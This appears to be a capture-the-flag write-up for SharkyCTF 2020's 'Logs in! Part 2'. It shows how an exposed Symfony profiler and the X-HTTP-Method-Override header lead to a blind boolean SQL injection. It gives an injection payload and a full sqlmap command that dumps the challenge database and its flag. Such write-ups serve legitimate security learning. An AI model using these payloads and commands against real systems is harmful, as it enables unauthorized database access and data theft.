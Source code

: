 ```yaml
---
title: "SharkyCTF 2020 - Logs in! Part 2"
date: 2020-05-12T13:51:40+02:00
author: "nscur0"
description: "Writeup of the challenge 'Logs in! Part 2'@SharkyCTF 2020"
---
```


![Challenge description](/img/2020-05-12_sharkyctf_logs-in-part2_challenge.png)

Building upon [part 1](https://ctftime.org/task/11536) of this challenge, we continue to gather useful insights
about how the target application works by using the enabled Symfony development tools. This time, we're using these
insights to hack our way into a database that's used by a backend service which we normally wouldn't be able to reach.

Via `/_profiler/open?file=<FILE_PATH>`, we can disclose the content of any file relative to the project's root.
This has been exploited in part 1 to identify the hidden `/debug` endpoint in `src/Controller/MainController.php`:

![Source code of MainController.php](/img/2020-05-12_sharkyctf_logs-in-part2_maincontroller.png)

`MainController`'s  primary function though, is to display request logs. Users are supposed to request the page
with the same HTTP method they're wishing to see the logs for: 

![Logs](/img/2020-05-12_sharkyctf_logs-in-part2_logs.png)

Looking at the code, we noticed that the page actually calls an external API at `10.0.142.5`. The method to fetch logs
for is determined by calling `$request-getMethod()`, where `$request` is an instance of Symfony's `Request` class. 
The documentation of [`Request#getMethod`](https://github.com/symfony/symfony/blob/5.0/src/Symfony/Component/HttpFoundation/Request.php#L1228) turned out to be quite helpful:

> If the X-HTTP-Method-Override header is set, and if the method is a POST,
> then it is used to determine the "real" intended HTTP method.

We couldn't tamper with our request's actual method, as the server would only process valid HTTP methods.
Using `X-HTTP-Method-Override` however, we were able to call the API at `10.0.142.5` with arbitrary `method` values.
This was trivially validated by `POST`ing against `/e48e13207341b6bffb7fb1622282247b`, providing the additional header `X-HTTP-Method-Override: PUT`:

![Logs with modified method](/img/2020-05-12_sharkyctf_logs-in-part2_logs-modified.png)

Our first reflex was to test for SQL injection, which turned out to be the right choice. Providing the value `PUT' or 1=1; -- ` resulted in all log entries being displayed:

![Logs with modified method](/img/2020-05-12_sharkyctf_logs-in-part2_logs-sqli.png)

We ended up exploiting this as a blind boolean based SQLi, where responses with the log entry ID `15` 
(the ID of one of the PUT log entries) would be considered `true`. sqlmap did the remaining work for us:

```bash
$ podman run --rm -it paoloo/sqlmap \
    --url="http://logs_in.sharkyctf.xyz/e48e13207341b6bffb7fb1622282247b" \
    --method="POST" --headers="X-HTTP-Method-Override:PUT*" --dbms=mysql \
    --technique=B --string="<td>15</td>" --suffix="; -- " --tamper="charencode" \
    --dump --flush-session
```

It took us a while to notice that sqlmap wouldn't URL encode the payloads, which is why adding 
`--tamper="charencode"` was necessary. The flag was located in the `db.it_seems_secret` table:

```
Database: db
Table: it_seems_secret
[1 entry]
+----+--------------------------------------------------------------------------------------------+
| id | flag                                                                                       |
+----+--------------------------------------------------------------------------------------------+
| 1  | shkCTF{CVE-2019-10913_S33m3D_Bulls5H1T_B3F0R3_TH15_Ch4LL_69e28c7b0004fe05b05800596e64343b} |
+----+--------------------------------------------------------------------------------------------+
```